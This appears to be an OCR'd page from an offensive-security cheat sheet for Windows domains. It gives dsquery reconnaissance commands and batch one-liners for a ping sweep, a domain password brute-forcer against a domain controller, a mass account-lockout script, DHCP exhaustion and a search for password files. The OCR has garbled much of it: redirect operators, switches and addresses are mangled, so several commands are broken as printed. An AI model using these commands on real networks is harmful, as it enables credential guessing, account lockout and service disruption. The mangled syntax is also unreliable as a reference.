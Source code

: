 dsquery subnet -site sitename -o rdn


LIST ALL SERVERS WITHIN A SITE

dsquery server -site sitename -o rdn


FIND SERVERS IN THE DOMAIN

dsquery	domainroot -filter
"(&(objectCategory=Computer)(objectClass=Computer)(operatingSystem='Server' ))" -limit 0


DOMAIN CONTROLLERS PER SITE

dsquery	"CN=Sites,CN=Configuration,DC=forestRootDomain" -filter
(objectCategory=Server)


WINDOWS SCRIPTING


' If scripting in batch file, variables must be preceeded with %%, i.e. %%i


NESTED FOR LOOP PING SWEEP

for /L %i in (10,1,254) do @ (for /L %x in (10,1,254) do @ ping -n 1 -w 100
10.10.%i.%x 2 nul 1 find "Reply" && echo 10.10.%i.%x	live.txt)


LOOP THROUGH FILE

for /F %i in ( file ) do command


DOMAIN BRUTE FORCER

for /F %n in (names.txt) do for /F %p in (pawds.txt) do net use \\DC01\IPC$ /user: domain \%n %p 1 NUL 2 &1 && echo %n:%p && net use /delete \\DC01\IPCS NUL


ACCOUNT LOCKOUT (LOCKOUT. BAT)

@echo Test run:
for /f %%U in (list.txt) do @for /1 %%C in (1,1,5) do @echo net use \\WIN-1234\c$ /0SER:%%0 wrongpass


DHCP EXHAUSTION

for /L %i in (2,1,254) do (netsh interface ip set address local static
1.1.1.%i netmask	gw	ID %1 ping 12-.0.0.1 -n 1 -w 10000	nul %1)


DNS REVERSE LOOKUP

for /L %i in (100,1,105) do @ nslookup 1.1.1.%i 1 findstr /i /c:"Name"
dns.txt && echo Server: 1.1.1.%i	dns.txt


SEARCH FOR FILES BEGINNING WITH THE WORD "PASS" AND THEN PRINT IF IT'S A DIRECTORY, FILE DATE/TIME, RELATIVE PATH, ACTUAL PATH AND SIZE (@VARIABLES ARE OPTIONAL)

forfiles IF c:\temp /s /m pass' -c "cmd /c echo @isdir @fdate @ftime @relpath @path @fsize"
